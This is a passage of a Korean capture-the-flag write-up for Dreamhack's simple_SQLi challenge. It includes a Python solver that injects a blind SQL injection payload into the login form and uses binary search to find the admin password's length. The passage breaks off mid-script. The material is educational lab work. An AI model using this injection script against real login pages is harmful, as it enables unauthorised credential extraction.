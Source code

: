 4. `Payload`에서 `Form Data` 구조 확인

<img width="699" alt="image" src="https://github.com/user-attachments/assets/76eb756e-915b-423c-9836-3f858c70fcd5">

해당 과정을 통해 `app.py` 코드에서도 확인할 수 있지만, **코드가 없을 경우 로그인 할 때 입력되는 값이 `userid` 필드와 `userpassword` 필드로 전송되는 것을 확인할 수 있다.**

### 1. 비밀번호 길이 파악

비밀번호를 알아내기 위해 비밀번호가 최대 몇자리로 이루어져있는지 확인해야한다. 이를 위해서 아래와 같이 `Binary Search`를 통해 `"admin"` 계정의 비밀번호 길이를 찾아내는 파이썬 스크립트를 작성할 수 있다.

```
#!/usr/bin/python3
import requests
import sys
from urllib.parse import urljoin


class Solver:
    """Solver for simple_SQLi challenge"""
    
    # initialization
    def __init__(self, port: str) -> None:
        self._chall_url = f"http://host3.dreamhack.games:{port}"
        self._login_url = urljoin(self._chall_url, "login")
        
    # base HTTP methods
    def _login(self, userid: str, userpassword: str) -> bool:
        login_data = {
            "userid": userid,
            "userpassword": userpassword
        }
        resp = requests.post(self._login_url, data=login_data)
        return resp

    # base sqli methods
    def _sqli(self, query: str) -> requests.Response:
        resp = self._login(f"\" or {query}-- ", "hi")
        return resp
        
    def _sqli_lt_binsearch(self, query_tmpl: str, low: int, high: int) -> int:
        while 1:
            mid = (low+high) // 2
            if low+1 >= high:
                break
            query = query_tmpl.format(val=mid)
            if "hello" in self._sqli(query).text:
                high = mid
            else:
                low = mid
        return mid
        
    # attack methods
    def _find_password_length(self, user: str, max_pw_len: int = 100) -> int:
        query_tmpl = f"((SELECT LENGTH(userpassword) WHERE userid=\"{user}\")<{{val}})"
        pw_len = self._sqli_lt_binsearch(query_tmpl, 0, max_pw_len)
        return pw_len
        
    def solve(self):
        pw_len = solver._find_password_length("admin")
        print(f"Length of admin password is: {pw_len}")
        
        
if __name__ == "__main__":
```